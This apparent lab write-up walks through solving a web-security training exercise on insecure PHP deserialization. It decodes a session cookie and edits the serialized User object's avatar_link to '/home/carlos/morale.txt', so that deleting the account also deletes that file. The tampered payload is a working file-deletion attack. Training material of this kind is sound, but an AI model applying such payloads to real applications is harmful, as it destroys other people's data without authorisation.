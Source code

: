 # Using application functionality to exploit insecure deserialization

 This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

You also have access to a backup account: gregg:rosebud

### solution
- start by logging in using **wiener:peter** creds

<img src=./images/Capture0.PNG alt="img0" width="700"/>

- we see this panel

<img src=./images/Capture7.PNG alt="img7" width="700"/>

- as we want to delete a file, we will be intersersted in delete account function
- we intercept this request and we see that

<img src=./images/Capture8.PNG alt="img8" width="700"/>

- we note the session cookie may be interesting: `Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ4OXo3ZHZrZms4MWRwbzk3YmJyemQ5ZmhsbW15cGR0bSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d`
- go to cyberchef and decode it

<img src=./images/Capture9.PNG alt="img9" width="700"/>

- The value after decoding is: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"x9z7dvkfk81dpo97bbrzd9fhlmmypdtm";s:11:"avatar_link";s:19:"users/wiener/avatar";}`
- notice that there's avatar_link attribute. It's what will be deleted, so let's change it to `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"x9z7dvkfk81dpo97bbrzd9fhlmmypdtm";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}`
- notice that i made the string size 23 cuz u must write the right size.
- encode it again and send it to the request.
- The wiener account is deleted and **morale.txt** files also is deleted
- Congratzzzzzzzzzzzzzzzz